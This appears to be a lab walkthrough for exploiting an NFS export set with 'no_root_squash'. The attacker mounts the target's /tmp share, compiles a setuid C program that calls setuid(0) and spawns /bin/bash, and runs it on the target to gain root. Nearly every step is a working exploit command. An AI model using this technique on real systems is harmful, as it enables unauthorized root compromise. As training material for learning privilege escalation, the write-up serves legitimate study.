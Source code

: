 **Detection**

  

Linux VM

  

1. In command line type: **cat /etc/exports**

2. From the output, notice that “no_root_squash” option is defined for the “/tmp” export.

  

**Exploitation**

  

Attacker VM

  

1. Open command prompt and type: **showmount -e 10.10.241.202**

2. In command prompt type: **mkdir /tmp/1**

3. In command prompt type: **mount -o rw,vers=2 10.10.241.202:/tmp /tmp/1**

In command prompt type:

**echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/1/x.c**

4. In command prompt type: **gcc /tmp/1/x.c -o /tmp/1/x**

5. In command prompt type: **chmod +s /tmp/1/x**

  

Linux VM

  

1. In command prompt type: **/tmp/x**

2. In command prompt type: **id**